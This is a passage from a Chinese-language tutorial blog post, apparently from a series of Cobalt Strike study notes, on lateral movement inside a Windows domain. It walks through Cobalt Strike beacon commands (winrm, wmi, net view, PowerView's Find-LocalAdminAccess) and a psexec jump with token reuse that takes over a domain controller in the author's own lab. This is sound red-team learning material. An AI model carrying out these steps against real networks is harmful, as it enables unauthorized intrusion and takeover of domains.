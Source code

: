 * 通过 WinRM 运行 Powershell 单行程序

```powershell
winrm [target] [listener]
```

* 通过 WMI 运行 Powershell 单行程序

```powershell
wmi [target] [listener]
```

在 Cobalt Strike 的 `viwe --> Targets` 下，右击主机选择 `Jump` 也可以通过图形化的方式进行上述操作，这样也使得横向移动更加的简单。

接下来进行一下演示，目前手中有一个普通机器的管理员会话，我们先在这台机器上运行 `net view` 查看一下当前域环境中的主机信息。

```powershell
beacon> net view
[*] Tasked beacon to run net view
[+] host called home, sent: 104504 bytes
[+] received output:
List of hosts:
[+] received output:
 Server Name             IP Address                       Platform  Version  Type   Comment
 -----------             ----------                       --------  -------  ----   -------            
 WINDC                   192.168.175.144                  500       6.1      PDC    
 WINTEST                 192.168.175.130                  500       6.1         
```

因为是自己本地搭建的测试环境，所以主机很少，可以看到当前域中有两台机器，再利用 PowerView 查找一下具有本地管理员访问权限的用户

```powershell
beacon> powershell-import PowerView.ps1
[*] Tasked beacon to import: PowerView.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```

接下来在 WinDC 上运行 psexec，因为这里是 64 位的，所以选择 psexec64，之后监听选择一个 smb beacon，会话就选择已经上线的 wintest 主机的会话，并勾选使用当前会话的访问令牌。

这里笔者认为应该是因为当前在 wintest 主机上有 windc 的管理员账户登录着，所以使用 wintest 的访问令牌是可以获取 windc 的信任的，类似于 [CS 学习笔记 17 节](https://teamssix.com/year/200419-150622.html)里的描述方法，如有不正确之处，还请多多指教。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs19-2.png)

之后，windc 主机就上线了，域中如果还有其他主机，也可以使用这种方法去横向移动。

> 参考链接：
> 
>[https://www.bilibili.com/video/BV16b411i7n5](https://www.bilibili.com/video/BV16b411i7n5)
> 
>[https://blog.ateam.qianxin.com/CobaltStrike4.0%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C_%E4%B8%AD%E6%96%87%E7%BF%BB%E8%AF%91.pdf](https://blog.ateam.qianxin.com/CobaltStrike4.0%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C_%E4%B8%AD%E6%96%87%E7%BF%BB%E8%AF%91.pdf)
> 
>更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
